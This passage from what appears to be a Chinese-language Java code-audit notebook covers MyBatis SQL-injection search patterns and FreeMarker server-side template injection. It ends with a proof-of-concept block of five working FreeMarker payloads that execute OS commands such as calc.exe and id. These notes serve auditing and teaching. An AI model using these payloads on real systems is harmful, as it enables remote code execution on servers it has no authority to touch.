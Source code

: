 ```java
                    userinfo = new UserInfo();
                    userinfo.setId(rs.getString("id"));
                    userinfo.setName(rs.getString("name"));
                    userinfo.setAge(rs.getInt("age"));
                    userinfo.setContent(rs.getString("content"));
                    userinfo.setAddress(rs.getString("address"));
                }
                ...

            return userinfo;
        }
}
```

**搜索正则**
```
Mybatis
order by \$\{.*\}|like \$\{.*\}
\$\{.*\}
```

**更多内容**
- [SQLi](../../Web安全/Web_Generic/SQLi.md)

---

## SSTI

**相关文章**
- [从ofcms的模板注入漏洞（CVE-2019-9614）浅析SSTI漏洞](https://blog.csdn.net/Alexz__/article/details/116400913)
- [服务器端模版注入SSTI分析与归纳](https://tttang.com/archive/1412/)

**更多内容**
- [SSTI](../../Web安全/Web_Generic/SSTI.md)

### FreeMarker SSTI

**描述**

模板文件存放在 Web 服务器上，当访问指定模版文件时， FreeMarker 会动态转换模板，用最新的数据内容替换模板中 `${...}` 的部分，然后返回渲染结果。

**FreeMarker 基础**
- [FreeMarker](../../../../Develop/Java/笔记/Web/模版引擎/FreeMarker.md)

**FreeMarker SSTI POC**
```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("open /Applications/Calculator.app")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("id")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
